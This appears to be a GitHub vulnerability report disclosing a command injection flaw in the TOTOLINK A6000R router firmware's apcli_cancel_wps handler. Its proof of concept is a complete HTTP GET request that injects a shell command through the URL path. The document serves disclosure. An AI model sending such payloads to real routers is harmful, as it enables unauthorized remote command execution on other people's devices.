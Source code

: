 # Vulnerability Title

TOTOLINK A6000R router has a command injection vulnerability

# Vulnerability Description
There is a command injection vulnerability in the apcli_cancel_wps function in the firmware version V1.0.1-B20201211.2000 of the TOTOLINK A6000R router.
An attacker can use this vulnerability to remotely execute system commands without authorization, causing the server to collapse.

# Vulnerability Location
/usr/lib/lua/luci/controller/mtkwifi.lua

# Self-rating
very critical

# Firmware version
V1.0.1-B20201211.2000

# Code Analysis

There is a command injection vulnerability in the apcli_cancel_wps function in the /usr/lib/lua/luci/controller/mtkwifi.lua file, which is triggered by the iface parameter. 
An attacker can execute arbitrary commands on the router by constructing a special HTTP request.
![image](https://github.com/user-attachments/assets/7b601b61-0e6f-4cee-8d59-aea4bd5e21af)

route:/admin/mtk/wifi/apcli_cancel_wps/arg
![image](https://github.com/user-attachments/assets/0c4bb4f3-ebf9-42af-9f62-3ec668520ed7)

# Local reproduction

By sending an HTTP GET request to a specific URL, you can inject commands in the iface parameter. 
For example, you can inject the ls>123.txt command to list the directory contents to verify the existence of the vulnerability.
POC
```
GET /cgi-bin/luci/admin/mtk/wifi/apcli_cancel_wps/;ls>123.txt; HTTP/1.1
Host: 192.168.187.136
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=cb3a0fa98f87a1ace139e0d21a61953e
```
![image](https://github.com/user-attachments/assets/d91ec087-7c01-4aef-bc2a-9a9a45114c58)
![image](https://github.com/user-attachments/assets/7f88e08d-02d1-4879-b0b7-9d01f12e1738)

